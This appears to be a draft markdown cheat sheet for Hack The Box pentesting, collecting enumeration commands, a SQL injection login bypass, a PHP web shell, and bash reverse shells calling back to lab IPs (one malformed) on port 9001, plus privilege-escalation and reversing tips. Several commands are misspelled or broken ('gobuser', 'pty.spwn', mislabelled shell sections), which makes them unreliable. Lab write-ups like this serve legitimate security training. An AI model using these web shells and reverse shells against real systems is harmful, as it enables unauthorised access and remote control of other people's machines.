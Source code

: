 ```yaml
---
title: "Hack The Box: Cheat Sheet"
date: DATE
draft: true
tags: ["pentesting","HTB"]
reads: 2
---
```

### Table of Contents:  
[Linux](#linux)   
[Windows](#windows)     
[Web](#web)    
[Reversing](#reversing)    
[Shells](#shells)    
[Privilege Escalation](#privilege-escalation)    
[Sources](#sources)
# Network Enumeration
## nmap
Run default scripts and enumerate versions
```
nmap -sC -sV -oA example 10.0.0.1
```

Scan All Ports
```
nmap -p- ip -oA example 10.0.0.1
```

## Sparta

GUI that does port scanning and runs enumeration scripts.

## Gobuster
Useful to enumerate directories
```
gobuser dir -u http://10.10.114 -w /usr/share/worldists/dirbuster/miediom -o gobuster.out
````
Don't log http 302 responses.
```
gobuser dir -u http://10.10.114 -w /usr/share/worldists/dirbuster/miediom -o gobuster.out -s 200,204,302,307
```
enumerate after login in using cookie
```
-c cookie to enumerate after login
```

## Sqlmap

```
sqlmap -rlogin.req --dbms mysql -p username --force-ssl
```
# Linux
## Netcat receive bindshell
```
nc -lvnp 9001
```

## Bash bind shell
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.13/9001 0>&1'
```

## Check what commands user can run as sudo
```
sudo -l
```

# Web

## Php Query Database
```
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "select * from profiles");
$reults = pg_fetch_assoc($result);
print_r($results);
?>
```

## PHP bind shell
```
<?php
echo "test";
system($_REQUEST['hello']);
?>

system.php?hello='bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'
```

## PHP regular expression

# Windows

## Just Another Windows Enumeration Script

[Jaws]

# Web

## Robots.txt
check robots.txt for interesting paths.

## Check how recent a file is on a service
Try to `wget` file and than run exiftool on it to see how old it is.

## Javascript

copy obscutated javascript into web console to decode it.


## Burp Suite
To replay requests, right click request in HTTP history and click send to Repeater.
You can use `ctrl u` to url encode parameters.


## SSL
Inpsect the ssl certificate for alternative hostnames and add them to your `/etc/hosts/. Also look for email addresses.

## Sql Injection
If there's client side field validation you be able to do sql injection.
```
email=admin@europacorp.htb; OR '1' = '1&password=password
```
# Shells
[PHP Bind Shell](#php-bind-shell)  
[Netcat Receive BindShell](#bash-bind-shell)    
[Bash Bind Shell](#netcat-receive-bindshell)
## Upgrade python shell to proper shelll
```
python -c 'import pty:pty.spwn("/bin/bash")'\
stty raw -echo
fg
stty rows 34 cols 136
```

# Privilege Escalation

[Check sudo commands](#check-what-commands-user-can-run-as-sudo)

## git hooks code execution
```
cd hooks
touch post-merge
chmod +x post-merge
```


# Reversing
[How to Debug Windows Exe](#how-to-debug-windows-exe)
## Ghidra
tools > search for strings
right click references to address

## How to debug windows exe

x32dbg

## list strings in file
```
strings example.exe
```

# Sources

Ippsec : Bitlab
IppSec : Bart
IppSec : Europa